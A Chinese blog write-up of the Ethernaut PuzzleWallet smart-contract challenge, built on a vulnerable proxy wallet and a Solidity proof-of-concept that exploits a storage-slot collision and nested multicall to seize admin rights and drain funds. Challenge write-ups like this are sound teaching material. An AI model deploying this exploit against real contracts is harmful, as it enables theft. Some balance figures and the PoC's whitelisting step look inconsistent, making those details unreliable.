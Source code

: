 ```yaml
---
title: 'ethernaut.openzeppelin合约安全闯关-18'
date: 2022-12-20 14:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'

---
```


<!-- more -->

#### 第二十四关  PuzzleWallet 思路与POC

#### 目标: 几个精明的程序员构建了一个只有管理员可更新逻辑的钱包合约,劫持此钱包并成为代理合约的管理员

##### 先看代码:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
pragma experimental ABIEncoderV2;

import "../helpers/UpgradeableProxy-08.sol";
//puzzle代理合约
contract PuzzleProxy is UpgradeableProxy {
    address public pendingAdmin;
    address public admin;

    constructor(address _admin, address _implementation, bytes memory _initData) UpgradeableProxy(_implementation, _initData) {
        admin = _admin;
    }

    modifier onlyAdmin {
      require(msg.sender == admin, "Caller is not the admin");
      _;
    }
 //申请成为管理员函数,无任何限制
    function proposeNewAdmin(address _newAdmin) external {
        pendingAdmin = _newAdmin;
    }

    function approveNewAdmin(address _expectedAdmin) external onlyAdmin {
        require(pendingAdmin == _expectedAdmin, "Expected new admin by the current admin is not the pending admin");
        admin = pendingAdmin;
    }

    function upgradeTo(address _newImplementation) external onlyAdmin {
        _upgradeTo(_newImplementation);
    }
}
//puzzle逻辑实现合约
contract PuzzleWallet {
    address public owner;
    uint256 public maxBalance;
    
    mapping(address => bool) public whitelisted; //白名单map
    mapping(address => uint256) public balances;//地址->余额map
    
//初始化钱包,要求maxBalance变量为0
    function init(uint256 _maxBalance) public {
        require(maxBalance == 0, "Already initialized");
        maxBalance = _maxBalance;
        owner = msg.sender;
    }
    //白名单限制  
    modifier onlyWhitelisted {
        require(whitelisted[msg.sender], "Not whitelisted");
        _;
    }
   //设置钱包最大余额msg.sender必须在白名单上
    function setMaxBalance(uint256 _maxBalance) external onlyWhitelisted {
      require(address(this).balance == 0, "Contract balance is not 0");
      maxBalance = _maxBalance;
    }
 //只有owner能新增白名单地址
    function addToWhitelist(address addr) external {
        require(msg.sender == owner, "Not the owner");
        whitelisted[addr] = true;
    }
//只有白名单上的用户才能往钱包里冲钱
    function deposit() external payable onlyWhitelisted {
      require(address(this).balance <= maxBalance, "Max balance reached");
      balances[msg.sender] += msg.value;
    }
//用户余额转出 没有重入漏洞
    function execute(address to, uint256 value, bytes calldata data) external payable onlyWhitelisted    {
        require(balances[msg.sender] >= value, "Insufficient balance");
        balances[msg.sender] -= value;
        (bool success, ) = to.call{ value: value }(data);
        require(success, "Execution failed");
    }
//同时调用多个逻辑合约的函数,但是deposit函数只允许被调用一次
    function multicall(bytes[] calldata data) external payable onlyWhitelisted {
        bool depositCalled = false;
        //循环取出函数选择器
        for (uint256 i = 0; i < data.length; i++) {
            bytes memory _data = data[i];
            bytes4 selector;
            assembly {
                selector := mload(add(_data, 32))
            }
            if (selector == this.deposit.selector) {
                require(!depositCalled, "Deposit can only be called once");
                // 防止用户重复存入token
                depositCalled = true;
            }
            //call函数没防止回调,应该if(selector == this.multicall.selector){revert}
            (bool success, ) = address(this).delegatecall(data[i]);
            require(success, "Error while delegating call");
        }
    }
}
/*
发现问题了嘛(逻辑漏洞):合约创建者似乎忘记了代理合约与逻辑实现合约的存储槽是共享的
address public pendingAdmin; slot0 <-   address public owner; slot0
address public admin;  slot1 <-   uint256 public maxBalance; slot1

poc思路:
代理合约上的pendingAdmin变量可以没有任何限制的修改,但是它对应的是逻辑合约的owner(禁止修改)
替换了owner变量之后我们就劫持了wallet合约!!
之后仅需要修改 maxBalance变量即可对于修改代理合约的admin(flag)

*/
```

#####  所以我们得出以下流程:
##### 1.PuzzleProxy.proposeNewAdmin() -> PuzzleWallet.addToWhitelist(you address)

##### 执行完1之后:

##### 此时我们成功劫持了逻辑合约,接下来就是想办法将合约的余额全部提现,然后才能调用setMaxBalance修改admin 

##### 那么如何将合约的余额全部提现呢,当前合约余额是0.001ETH.我们此时成为了白名单用户余额是0.

##### 问题关键在于需要我们的余额大于合约余额或者保持跟合约余额保持一致,如何做到看multicall函数.

##### 此时multicall函数允许我们调用deposit函数一次, 合约余额:0.002ETH user:0.001ETH.

##### 那么如果我们构建calldata:

##### {

##### 使其先调用deposit一次{0.001ETH} 

##### 然后回调multicall从而刷新depositCalled值,然后再调用deposit呢?{两次调用用户余额0.002ETH}

##### }

##### 由于以上括起来的操作都是在一次交易中完成的,所以实际上我们仅发送了0.001ETH到合约

##### 所以就得到了 合约余额:0.002ETH user:0.003ETH.

2. ##### PuzzleWallet.execute(you address ,合约所有余额) -> PuzzleWallet.setMaxBalance(uint256(you address))

  ##### 完成 :ok_hand:

#### 最终POC:

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "./Vulnerability/PuzzleWallet.sol";

contract hackWallet {
    PuzzleProxy public px = PuzzleProxy(payable(0x12E9E06d6AaA6941a0dd49C6D21F01D6c0f0CbeA));

    PuzzleWallet public wallet = PuzzleWallet(payable(0x12E9E06d6AaA6941a0dd49C6D21F01D6c0f0CbeA));

    function attack() public {
        //构造calldata
        bytes[] memory depositSelector = new bytes[](1);
        depositSelector[0] = abi.encodeWithSelector(wallet.deposit.selector);

        bytes[] memory nestedMulticall = new bytes[](2);
        nestedMulticall[0] = abi.encodeWithSelector(wallet.deposit.selector);
        nestedMulticall[1] = abi.encodeWithSelector(wallet.multicall.selector, depositSelector);

        //替换wallet合约中的owner
        px.proposeNewAdmin(msg.sender);
        wallet.addToWhitelist(msg.sender);

        //构造calldata使用户余额大于合约余额
        wallet.multicall{value: 0.001 ether}(nestedMulticall);
        //提现合约所有余额并且改变solt1 ,也就是改变proxy合约中的admin
        wallet.execute(msg.sender, 0.002 ether, "");
        wallet.setMaxBalance(uint256(uint160(msg.sender)));
    }
}

```

